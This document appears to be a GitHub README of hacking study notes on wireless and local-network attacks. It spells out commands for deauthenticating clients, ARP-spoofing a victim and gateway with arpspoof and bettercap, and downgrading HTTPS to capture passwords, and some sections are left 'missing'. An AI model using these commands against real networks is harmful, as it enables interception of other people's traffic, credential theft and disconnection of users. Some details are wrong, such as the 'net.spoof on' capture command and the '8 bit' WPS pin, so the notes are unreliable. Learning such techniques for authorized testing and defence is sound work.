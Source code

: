 # Hacking Manual

## Wireless Attacks

## Preconnection Attack

This section describes the attacks possible before connecting to the network. We cannot do much if the network is encrypted using any security protocol but certainly we can disconnect devices on the network in most of the cases. Also, if the connection is open, we can check the packet contents (unencrypted) on Wireshark.

### Change the MAC Address

`sudo ifconfig wlan1 hw ether <changed-mac>`

### Going into monitor mode
`sudo ifconfig wlan1 down`<br />
`sudo iwconfig wlan1 mode monitor`<br />
`sudo ifconfig wlan1 up`

In case there errors, try killing all wireless services like network manager by<br />
`sudo airmon-ng check kill`

### Listening to all the wireless packets

`sudo airodump-ng wlan1`

#### Listening to all the packets on a particular network

`sudo airodump-ng --bssid <mac-address-gateway> --channel <channel-no> wlan1`

We also use --write <file-name> option to collect the packets. In particular, the cap file is very important.

### Disconnecting a client from the network

`sudo aireplay-ng --deauth <no-of-deauth-packets> -a <mac-address-gateway> -c <mac-address-client> wlan1`

## Gaining Access

This section describes what all we can do to gain access to a network.

### Cracking WEP

<missing>

### Cracking WPA/WPA2

The main differencd between WPA and WPA2 is the encryption algorithm. <br />
Before trying to crack this, it would be a great idea to check whether WPS is enabled.

#### Gain access with WPS

WPS is used by routers to connect to printers and other devices. Generally, authentication takes place using an 8 bit pin which is pretty easy to crack using brute-force. If WPS is enabled with a PUSH button, the following method won't work.

<missing>

#### Gain access without WPS or WPS with Push button

<missing>

## Post-Connection Attacks

### Discover the devices connected to the same network

#### Using netdiscover

`sudo netdiscover -r 192.168.1.1/24`<br />
This will give us all the clients connected to the same network.

#### Using nmap

This is a very great tool. This will give us a whole lot of information. <br />
We use zenmap, that is the GUI tool for nmap.

We put the target network as 192.168.1.1/24, all the possible IPs on the local subnet.
We have different scan options:
1. Ping Scan - It gives us all the devices on the network, theirs IPs and vendors (if possible).
2. Quick Scan - It also gives us the all the open ports on the client and services running on these ports (http, ssh, etc).
3. Quick Scan Plus - It gies us even more information. We'll be able to see the OS, the device type (mobile, laptop, etc) and discover the program running on the open port.

### Man In The Middle (MITM) Attack

#### ARP Spoofing

All the information from Client to Server and vice-versa will be visible to the MITM. This is possible only because ARP is not so secure.
Essentially, what we'll do is:
1. Make the router think that I am the client (Router's ARP Table will update itself).
2. Make the client (victim) think that I am the router (Client's ARP Table will update itself).

So, basically MITM will send an ARP Response saying that it is so-and-so in the network. And all the machines except the responses without even a request. Plus, they don't even verify whether we are the same IP (We are not and we believe us).

For client:<br />
`sudo arpspoof -i wlan0 -t 192.168.1.15 192.168.1.1`

For the router or gateway:<br />
sudo arpspoof -i wlan0 -t 192.168.1.1 192.168.1.15`

#### Using bettercap

bettercap is a more powerful utility.<br />
`sudo bettercap -iface wlan0`

With this command, we enter the bettercap shell.<br/>
Type `help` to get more information on modules.<br />
You will see only events.stream module running which essentially manages all the modules.

To get more information on modules, type `help <module>`.


##### net.probe and net.recon

`net.probe on` - This will turn on both the modules.<br />
Now, `net.show` will show a lot of data about devices on the network.

##### ARP Spoofing using bettercap

Check the help with `help arp.spoof`.<br />
To become the MITM:
1. `set arp.spoof.fullduplex true
2. `set arp.spoof.targets 192.168.1.15`
3. `arp.spoof on`

##### Capture all the data flowing on the target computer after ARP spoofing

`net.spoof on`
Now, we can see all the packets on the network.

##### Make a caplet file to execute all the above commands

Check out the folder with the spoof.cap file containing all the above commands and type:<br />
`sudo bettercap -iface wlan0 -caplet spoof.cap`

##### Bypass HTTPS

All the information like passwords are readable due to `http` protocol. So people came up with a solution `https` which provides SSL or TLS encryption to the data.
So, being a MITM, we downgrade `https` to `http` for the client (victim). And now, we can read the plaintext data of `http`. To do this, we'll have to use a tool call **SSL Strip**. We for now, we'll use a bettercap caplet. The already-existing caplet does not replace all `https` links with `http`. So we use a custom one - hstshijack.

Add `set net.spoof.local true` to the spoof.cap file. We are setting it because once we use the custom caplet, bettercap will think it's my password (and not show it on the screen) but it's not. By setting it, we can see all the data.
